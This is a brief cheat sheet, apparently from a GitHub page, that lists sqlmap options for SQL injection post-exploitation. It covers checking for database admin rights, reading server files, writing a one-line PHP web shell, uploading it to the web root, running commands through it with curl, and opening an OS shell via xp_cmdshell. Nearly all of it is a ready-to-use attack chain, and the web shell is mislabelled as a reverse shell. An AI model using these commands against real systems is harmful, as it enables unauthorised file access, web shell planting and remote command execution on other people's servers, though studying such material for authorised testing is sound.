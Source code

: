 

Check for database admin
```
--is-dba
```

File Read
```shell-session
--file-read "PATH/T0/FILE"
```

Creating reverse shell
```shell-session
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```
Upload reverse shell
```shell-session
--file-write "shell.php" --file-dest "/var/www/html/shell.php"
```

Execute commands via reverse shell
```shell-session
curl http://www.example.com/shell.php?cmd=ls+-la
```

Gain shell via xp_cmdshell
```shell-session
--os-shell
```

